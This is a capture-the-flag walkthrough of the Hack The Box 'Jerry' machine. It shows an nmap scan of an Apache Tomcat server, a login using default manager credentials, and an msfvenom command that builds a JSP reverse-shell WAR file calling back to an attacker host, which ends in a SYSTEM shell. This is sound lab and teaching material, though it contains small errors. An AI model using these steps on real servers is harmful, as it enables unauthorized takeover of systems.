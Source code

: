 ```yaml
---
title: 'Jerry Walkthrough: Brute-Forcing Default Service Credentials '
date: 2024-10-28 12:00:00 +0530
categories:
- Capture the Flags
- Windows
tags:
- HTB
- standalone
- brute-force
description: Walkthrough of HTB's Jerry machine
---
```

### Recon

Started with NMAP Scan to discover open ports

```bash
sudo nmap -T5 -sS -n -Pn --disable-arp-ping -p- 10.10.10.95 --max-retries 0 
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-21 08:43 EDT
Warning: 10.10.10.95 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.95
Host is up (0.093s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 88.83 seconds
```

To further identify the SMB version running and possibly determine the OS, I ran a targeted Nmap Aggressive scan:

```bash
sudo nmap -A -n -Pn --disable-arp-ping --stats-every=5s -p 8080 10.10.10.95 --max-retries 0
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows Server 2012 (89%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (89%), Microsoft Windows Server 2012 R2 (89%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Embedded Standard 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

Nmap done: 1 IP address (1 host up) scanned in 18.62 seconds

```

A service named “Apache Tomcat” running on the port 8080. The http-open-proxy script indicates that the server might be misconfigured as an open proxy.

### Nmap Flags:

- **`sS`**: Performs a SYN scan (stealth scan).
- **`n`**: Disables DNS resolution to speed up scanning.
- **`-disable-arp-ping`**: Skips ARP ping.
- **`p`**: Scans all of the ports.
- **`A`**: Agressive Scan, which performs OS Detection, Version detection, Default script scanning
- **`--script=vuln,exploit` :** Runs NMAP default NSE vuln, exploit scripts to identify potential vulnerabilities.

NMAP was unable to determine any vulnerabilities for the service, but found some interesting paths

```bash

PORT     STATE SERVICE
8080/tcp open  http-proxy
| http-enum: 
|   /examples/: Sample scripts
|   /manager/html/upload: Apache Tomcat (401 Unauthorized)
|   /manager/html: Apache Tomcat (401 Unauthorized)
|_  /docs/: Potentially interesting folder

```

### Brute-Forcing credentials

![image.png]({ '/assets/img/Jerry/image.png' | relative_url })

Tried accessing “Server status”, which returned a pop-up asking for credentials to access the page as shown below.

![image.png]({ '/assets/img/Jerry/image%201.png' | relative_url })

Brute-forced few known credentials found on [google](https://stackoverflow.com/questions/3829513/what-is-the-default-username-and-password-in-tomcat). Username:Password- admin:admin worked for logging into “Server Status”, “Manager App”,”Host Manager”

Found some interesting information on the webpage “Host Manager” 

![image.png]({ '/assets/img/Jerry/image%202.png' | relative_url })

With the credentials obtained tomcat:s3cret (Username:Password), logged into “Tomcat Web Application Manager” on an another Private tab. 

![image.png]({ '/assets/img/Jerry/image%203.png' | relative_url })

As the tomcat user, we can upload a .war file  to the server.

![image.png]({ '/assets/img/Jerry/image%204.png' | relative_url })

A .war (Web application Archive) file is a packaged file format used to distribute Java-based web applications. It stands for Web application resource and is essentially a compressed archive similar to a .zip file., but with a speific structure intended for deployment on a Java EE server, such as Apache Tomcat.

### Generating Payload & Obtaining a Reverse Shell

Generating .war payloads using “msfvenom”

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=4444 -Ff war -o test.war
```

Successfully uploaded the file (test.war) to the server

![image.png]({ '/assets/img/Jerry/image%205.png' | relative_url })

Accessing the file via web browser at “test” location resulted in obtaining a reverse shell.

![image.png]({ '/assets/img/Jerry/image%206.png' | relative_url })

Obtained shell has SYSTEM Privileges

![image.png]({ '/assets/img/Jerry/image%207.png' | relative_url })

The flags are located at Administrator’s Desktop

![image.png]({ '/assets/img/Jerry/image%208.png' | relative_url })

### Disclaimer

*The techniques and tools discussed in this walkthrough are intended solely for educational purposes and to help improve cybersecurity awareness. Please conduct any penetration testing activities only on systems that you own or have explicit permission to test. Unauthorized access to computer systems is illegal and punishable by law. The author does not take responsibility for any misuse of the information provided*
